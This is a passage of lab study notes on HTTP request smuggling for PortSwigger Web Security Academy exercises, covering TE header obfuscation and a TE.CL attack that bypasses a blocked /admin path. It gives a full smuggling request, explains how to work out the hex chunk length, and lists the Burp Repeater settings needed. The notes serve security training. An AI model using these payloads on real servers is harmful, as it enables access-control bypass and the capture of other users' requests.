 ```html

x=1
0\r\n  
\r\n
  
```  

![GPost Obfuscating the TE header](images/gpost.png)  

>**Note:** You need to include the trailing sequence **\r\n\r\n** following the final **0**.  

[PortSwigger Lab: HTTP request smuggling, obfuscating the Transfer-Encoding (TE) header](https://portswigger.net/web-security/request-smuggling/lab-obfuscating-te-header)  
  
>Wonder how often this scenario occur that hacker is able to steal visiting user request via HTTP Sync vulnerability?  
  
### TE.CL multiCase - Admin blocked  

>When attempting to access `/admin` portal URL path, we get the filter message, `Path /admin is blocked`. The HTTP Request Smuggler scanner ***identify*** the vulnerability as `TE.CL multiCase (delayed response)`. **Note:** because back-end server doesn't support chunked encoding, turn off `Update Content-Length` in Repeater menu.  

>After disable auto content length update, changing to `HTTP/1.1`, then send below request twice, adding the second header `Content-Length: 15` prevent the HOST header conflicting with first request.  
>**Note:** need to include the trailing sequence `\r\n\r\n` following the final `0`.  
  
>Manually fixing the length fields in request smuggling attacks, requires each chunk size in bytes expressed in **HEXADECIMAL**, and **Content-Length** specifies the length of the message body in **bytes**. Chunks are followed by a **newline**, then followed by the chunk contents. The message is terminated with a chunk of size ZERO.  

```html
POST / HTTP/1.1
Host: TARGET.net
Content-Type: application/x-www-form-urlencoded
Content-length: 4
Transfer-Encoding: chunked

71
POST /admin HTTP/1.1
Host: localhost
Content-Type: application/x-www-form-urlencoded
Content-Length: 15

x=1
0

```  

>Calculating TE.CL (Transfer-Encoding / Content-Length) smuggle request length in **HEXADECIMAL** and the payload is between the hex length of **71** and the terminating **ZERO**, not including the ZERO AND not the preceding `\r\n` on line above ZERO, as part of length. The initial POST request **content-length** is manually set.  
  